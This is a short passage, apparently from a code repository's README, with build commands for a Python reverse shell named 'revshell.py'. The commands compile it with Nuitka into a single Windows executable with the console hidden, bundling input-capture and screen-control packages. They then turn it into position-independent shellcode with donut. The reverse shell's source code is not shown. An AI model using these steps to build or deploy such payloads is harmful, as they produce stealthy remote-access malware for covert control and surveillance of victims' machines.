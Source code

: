 To build the executable from the reverse shell:
```ps1
python -m nuitka --msvc=14.3 `
    --onefile `
    --windows-disable-console `
    --include-package=ctypes `
    --include-package=pyautogui `
    --include-package=numpy `
    --include-package=requests `
    --include-package=pynput `
    --enable-plugin=numpy `
    --enable-plugin=tk-inter `
    --include-package-data=pyautogui `
    revshell.py
```

donut : 

```
./donut.exe -i revshell_nuitka.exe -f 1 -a 2 -o revshell.bin
```